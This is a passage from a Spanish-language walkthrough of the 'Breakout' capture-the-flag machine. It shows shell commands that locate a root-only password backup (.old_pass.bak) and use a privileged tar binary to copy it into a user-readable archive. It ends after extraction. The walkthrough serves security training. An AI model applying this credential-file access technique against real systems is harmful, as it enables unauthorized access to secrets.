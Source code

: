 ```bash
cyber@breakout:/$ find -name ".*" -print 2>/dev/null | grep -v -E "sys|etc|run"
.
./home/cyber/.tmp
./home/cyber/.tmp/.theme_Nzg2ZTc0MjFmZGY4_usermin_tree_cyber
./home/cyber/.tmp/.theme_ZmNhNzIwNWY1MWQw_usermin_tree_cyber
./home/cyber/.spamassassin
./home/cyber/.gnupg
./home/cyber/.bash_history
./home/cyber/.filemin
./home/cyber/.profile
./home/cyber/.bashrc
./home/cyber/.usermin
./home/cyber/.bash_logout
./home/cyber/.local
./usr/share/dictionaries-common/site-elisp/.nosearch
./usr/share/webmin/smf/images/.del-left.gif-Dec-05-04
./var/backups/.old_pass.bak
./tmp/.webmin
./tmp/.ICE-unix
./tmp/.XIM-unix
./tmp/.Test-unix
./tmp/.font-unix
./tmp/.X11-unix
cyber@breakout:/$
cyber@breakout:/$ cd /var/backups/
cyber@breakout:/var/backups$ ls -la
total 28
drwxr-xr-x  2 root root  4096 Apr  1 23:51 .
drwxr-xr-x 14 root root  4096 Oct 19 13:48 ..
-rw-r--r--  1 root root 12732 Oct 19 15:56 apt.extended_states.0
-rw-------  1 root root    17 Oct 20 07:49 .old_pass.bak
cyber@breakout:/var/backups$
```

El recurso `.old_pass.bak` tiene permisos sólo de **root**, pero podemos comprimirlo con el binario `tar` en nuestro directorio personal y luego descomprimirlo.

```bash
cyber@breakout:/var/backups$ /home/cyber/tar -cf /home/cyber/backup.tar .old_pass.bak 
cyber@breakout:/var/backups$ cd /home/cyber/
cyber@breakout:~$ ls -l
total 536
-rw-r--r-- 1 cyber cyber  10240 Apr  2 03:15 backup.tar
-rwxr-xr-x 1 root  root  531928 Oct 19 15:40 tar
-rw-r--r-- 1 cyber cyber     48 Oct 19 14:31 user.txt
cyber@breakout:~$
```

Descomprimirmos el archivo:

```bash
cyber@breakout:~$ ./tar -xf backup.tar 
cyber@breakout:~$ ls -la
total 584
drwxr-xr-x  8 cyber cyber   4096 Apr  2 03:16 .
drwxr-xr-x  3 root  root    4096 Oct 19 08:24 ..
-rw-r--r--  1 cyber cyber  10240 Apr  2 03:15 backup.tar
-rw-------  1 cyber cyber      0 Oct 20 07:52 .bash_history
-rw-r--r--  1 cyber cyber    220 Oct 19 08:24 .bash_logout
-rw-r--r--  1 cyber cyber   3526 Oct 19 08:24 .bashrc
drwxr-xr-x  2 cyber cyber   4096 Oct 19 14:06 .filemin
drwx------  2 cyber cyber   4096 Oct 19 14:00 .gnupg
drwxr-xr-x  3 cyber cyber   4096 Oct 19 14:29 .local
-rw-------  1 cyber cyber     17 Oct 20 07:49 .old_pass.bak
-rw-r--r--  1 cyber cyber    807 Oct 19 08:24 .profile
```